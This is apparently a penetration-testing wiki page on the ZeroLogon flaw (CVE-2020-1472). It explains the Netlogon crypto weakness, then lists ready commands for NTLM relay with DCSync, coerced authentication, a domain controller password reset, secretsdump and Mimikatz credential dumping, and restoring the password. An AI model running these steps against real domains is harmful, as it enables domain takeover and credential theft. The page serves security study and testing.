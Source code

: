 ```yaml
---
description: CVE-2020-1472
authors: ShutdownRepo, sckdev
category: ad
---
```


# ZeroLogon

## Theory

Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers (DCs) and domains.

The CVE-2020-1472 findings demonstrated that MS-NRPC used a custom and insecure cryptographic protocol (i.e. it reuses a known, static, zero-value Initialization Vector (IV) in an AES-CFB8 mode) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability.

There were many concepts to understand in the original exploit scenario (the "[password change](zerologon.md#password-change-disruptive)" one).

* Concept #1: authentication through MS-NRPC uses AES-CFB8. This means that for 1 in 256 possibilities, every block of the ciphertext will be `\x00` bytes if both the IV and the plaintext are `\x00` bytes.
* Concept #2: authentication through MS-NRPC uses a static and null IV (only `\x00` bytes, hence partly validating concept #1).
* Concept #3: MS-NRPC signing and sealing don't rely on the same vulnerable mechanisms but are optional and can be ignored.
* Concept #4: machine accounts have an unlimited number of login attempts, hence allowing for an authentication bypass and the spoofing of these accounts thanks to concepts #1 and #2 (by using a plaintext filled with `\x00` bytes and by doing enough attempts).
* Concept #5: the `NetrServerPasswordSet2` call can be used to reset an account's password. The new password structure to supply in this call has to be encrypted with the same vulnerable mechanisms stated in concepts #1 and #2.
* Concept #6: the password structure can be filled with `\x00` bytes, leading to the setting a new password of a 0 characters length for the target account.
* Concept #7: all previous concepts can be chained to reset a domain controller's password and obtain domain-admin privileges.

## Practice

### Authentication relay technique

Another technique, [showcased by Dirk-jan](https://dirkjanm.io/a-different-way-of-abusing-zerologon/) no later than 2 weeks after the public disclosure, highlighted another way of exploiting the vulnerability. That technique relies on a [relayed authentication](../ntlm/relay.md) to directly operate a [DCSync](../credentials/dumping/dcsync.md), hence having no impact on the continuity of services.

In order to operate the attack, the [Impacket](https://github.com/SecureAuthCorp/impacket)'s script [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) can be used.

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
```

Once the relay servers are up and running and waiting for incoming trafic, attackers need to coerce a Domain Controller's authentication (or from another account with enough privileges). One way of doing this is to rely on the [PrinterBug](../mitm-and-coerced-authentications/ms-rprn.md).

```bash
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change ( :warning: disruptive)

> [!CAUTION]
> This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is not advised.

This exploit scenario changes the NT hash of the domain controller computer account in Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent disruption as much as possible, attackers can try to exploit the CVE, find the NT hash of the Domain Controller account before it was changed, and set it back in Active Directory.

::: tabs

=== UNIX-like

The original attack path can be conducted from UNIX-like systems with the following Python scripts.

* [Secura BV's scanning PoC](https://github.com/SecuraBV/CVE-2020-1472)
* [Dirk-Jan's exploit script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
* [Dirk-Jan's restore script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)

```bash
# Scan for the vulnerability
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
```


=== Windows

The attack can also be conducted from Windows systems with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) using [`lsadump::zerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/zerologon) to scan and exploit it, then obtain the krbtgt with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) and reset the DC account with [`lsadump::postzerologon`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/postzerologon) or use [`lsadump::changentlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/changentlm).

```powershell
# Scan for the vulnerability
lsadump::zerologon /target:'Domain_controller' /account:'DC_account$'

# Exploit the vulnerability: set the NT hash to \x00*8
lsadump::zerologon /exploit /target:'Domain_controller' /account:'DC_account$'

# Obtain the krbtgt by DCSync
lsadump::dcsync /domain:'Domain' /dc:'Domain_controller' /user:'Administrator' /authuser:'DC_account$' /authdomain:'Domain' /authpassword:'' /authntlm

# Reset the DC account's password in AD and in its SAM base
lsadump::postzerologon /target:'Domain_Controller' /account:'DC_account$'

# (alternative to postezerologon) Find the previous NT hash
//TODO

# (alternative to postezerologon) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'Domain_controller' /user:'DC_account$' /oldntlm:'31d6cfe0d16ae931b73c59d7e0c089c0' /newntlm:'previous_NThash'
```

:::


## Resources

[https://www.secura.com/blog/zero-logon](https://www.secura.com/blog/zero-logon)

[https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)